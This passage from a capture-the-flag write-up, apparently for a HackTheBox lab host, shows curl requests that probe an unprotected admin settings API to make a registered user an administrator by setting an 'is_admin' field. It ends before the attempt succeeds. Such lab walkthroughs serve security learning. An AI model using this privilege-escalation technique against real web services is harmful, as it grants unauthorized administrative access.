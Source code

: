 We receive a bunch of routes, and those related to `admin` stand out to us.

First, let's check if we are administrators.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": false
}
```

As expected, we are not administrators.

The `/api/v1/admin/settings/update` route has the description `"Update user settings"`, which seems interesting since, if unprotected, we might be able to change user parameters, such as whether we are `admin` or not.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

It tells us that the data type we are sending via PUT is invalid, so let's try JSON.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d "{}" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Now it says the email field is missing, so let's add the email we used to register on the site.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

It asks for the `is_admin` field, so let's try giving it the value `true`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": "true"}' | jq

{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```
